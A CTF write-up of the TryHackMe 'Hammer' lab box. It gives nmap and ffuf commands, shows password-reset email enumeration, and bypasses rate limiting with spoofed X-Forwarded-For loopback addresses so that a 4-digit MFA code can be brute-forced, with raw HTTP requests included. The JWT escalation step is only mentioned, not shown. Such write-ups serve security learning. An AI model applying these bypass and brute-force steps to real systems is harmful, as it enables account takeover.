## Introduction
------------------------------------------------------------------------------------------
[hammer](https://tryhackme.com/r/room/hammer) is a medium rated linux box from tryhackme. The exploitation consist of abusing the reset password funtionality for email enumeration, next step involve brute forcing the mfa code giving access to reset the user password. From this gained user we can abuse the jwt to get admin access in the application allowing us to have full access to the command execution functionality.

------------------------------------------------------------------------------------------

## Enumeration
We start by a full scan to discover all tcp opened ports...
### All Open Ports
```bash
rustscan -a 10.10.179.102
```


### Services Scanning
```bash
nmap -p22,1337 -sC -sV -oN hammer.full 10.10.179.102
```
```text
# Nmap 7.94SVN scan initiated Wed Dec 11 08:14:28 2024 as: nmap -p22,1337 -sC -sV -v -oN hammer.full 10.10.179.102
Nmap scan report for hammer.thm (10.10.179.102)
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0a:6d:ab:ce:54:aa:96:47:b4:6e:d8:56:38:a7:ae:b6 (RSA)
|   256 bd:2a:f1:09:dd:e1:d3:2a:5b:20:f1:52:4e:d5:39:5a (ECDSA)
|_  256 f0:ec:2f:c0:d6:35:68:0e:8e:53:b3:49:7c:a4:0e:fa (ED25519)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/.../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 11 08:14:43 2024 -- 1 IP address (1 host up) scanned in 15.06 seconds
```
### Hostname
```bash
echo '10.10.179.102   hammer.thm' >> /etc/hosts
```

## FootHold
### Port 1337

```bash
ffuf -c -u http://hammer.thm:1337/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php , .txt
```


php-jwt library is being used by the app, i heva looked for known issues with this library by nothing here...

The dev note higlihts a naming convention (/hmr_DIRNAME) that can helps us better fuzz directories... 
```bash
ffuf -c -u http://hammer.thm:1337/hmr_FUZZ -w /usr/share/wordlists/dirb/common.txt 
```



user tester@hammer.thm: authentication failure for "/restricted-area": Password Mismatch
tester@hammer.thm


The "Invalid email address!" response we get here can be a chance for valid email enumeration!!!!
let's enter the previous email we found in the logs...

by entering tester@hammer.thm email in the rest password page we got the reonse in the previous capture, meaning it's a valid email.
Something to not is that it's possible to find fuzz for valid emails, let's do that...


There is a rate limiting in place...but this is not going to discourage us right? of course...My first question what does the server track in order to tell how may attempts we have left? after multiple tests it seems like our unauthenticated session is the one being tracked...

Once i remove the cookie header in request the "Rate-Limit-Pending" header in the response will always be 9...my guess is that the server has no way of telling us how many attempts we have left. so we an open door here to fuzz
```text
POST /reset_password.php HTTP/1.1
Host: hammer.thm:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://hammer.thm:1337/reset_password.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://hammer.thm:1337
Connection: keep-alive
Upgrade-Insecure-Requests: 1

email=FUZZ@hammer.thm
```
```bash
ffuf -c -request reset_pass.req -request-proto http -w usernames.txt -fs 1754
```

We have got that email again...whatever method now that we have gotten a valid email we are good to go

- Brute force tha tester@hammer.thm password on the login page
- Attack the mfa and reset tester@hammer.thm password

- There is ratelimiting
- There is time count down, meaning the user has s=175 seconds to submit the valid mfa code.
- If count down reaches 0 we get redirected to "Time elapsed" error page.

Unlike the previous situation, here we can't remove the session, if we do that we get redirection to the same "Time elapsed" error page.


If we can find a parameter in the request that can help use overcome the rate limiting we can have a chance to brute force the mfa code give 120s time frame...

After googling "Rate limit bypass" i found this...

X-Forwarded-For: 127.0.0.5 worked here, when we change the IP we got another 10 requests. 10 requests by ip and we want to fuzz a 4 digit mfa code we will need up to 900 ip...

By abusing the loopback address range 127.0.0.0/8 it's possible


```bash
echo '0000' > w.txt
seq 1000 9999 >> w.txt
```
We need 1000 ips in the loopback range and a little bit of networking nknowlege bring us to 127.0.0.0/22 range.
2^10=1024 and 22=32-10
```bash
prips 127.0.0.0/22 > ip.txt
awk '{for(i=1; i<=9; i++) print $0}' ip.txt > wordlist.txt
```
Pitchfork Attack using ffuf...
- copy the PHPSESSID  and add it to mfa_brute.req
- Enter the email to start the process
- run pitchfork attack


```text
POST /reset_password.php HTTP/1.1
Host: hammer.thm:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: FUZZIPS
Content-Length: 24
Origin: http://hammer.thm:1337
Connection: keep-alive
Referer: http://hammer.thm:1337/reset_password.php
Cookie: PHPSESSID=vf6ddidso59n9qahc89usq2vp9
Upgrade-Insecure-Requests: 1

recovery_code=FUZZCODE&s=120
```



```bash
ffuf -c -mode pitchfork -request mfa_brute.req -request-proto http -w wordlist.txt:FUZZIPS -w w.txt:FUZZCODE -fs 2202
```

The valid code is the first code that does not hit ouw response size filter...

Using that code we got a page to set a new password.

After the setting a new password we can log in as tester@hammer.thm...


As we may guess there is some command filtering in place and we can't read the flag.txt file directly...
basic commands like cat, id ...my guess is that only the ls command is allowed.

## Privilege Escalation
```bash
curl http://hammer.thm:1337/188ade1.key
curl http://hammer.thm:1337/composer.json
```


## Kill Chain Summary
1. Email Enumeration trough the reset functionality.
2. MFA code brute forcing to reset tester@hammer.thm password.
3. JWT attack to get admin acces in the application.

## References
[Rate Limit Bypass](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass)<br>
[hacker recipes jwt attack](https://www.thehacker.recipes/web/inputs/jwt)<br>
[jwt auth bypass via kid header path traversal](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-kid-header-path-traversal)<br>